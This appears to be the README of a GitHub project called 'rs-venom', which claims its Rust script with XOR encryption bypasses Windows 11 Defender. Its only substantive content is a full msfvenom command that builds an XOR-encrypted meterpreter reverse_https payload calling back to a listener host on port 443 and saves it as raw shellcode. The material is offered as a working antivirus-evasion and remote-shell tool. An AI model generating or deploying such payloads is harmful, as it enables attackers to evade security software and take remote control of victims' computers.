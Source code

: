 # rs-venom

## This rust script paired with Xor encryption can bypass Windows 11 (Defender and all security turned on)

### MSFVenom command-line leveraging xor encryption

```cpp
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.18.138 lport=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key "rust8" -f raw -o shellcode.bin

```
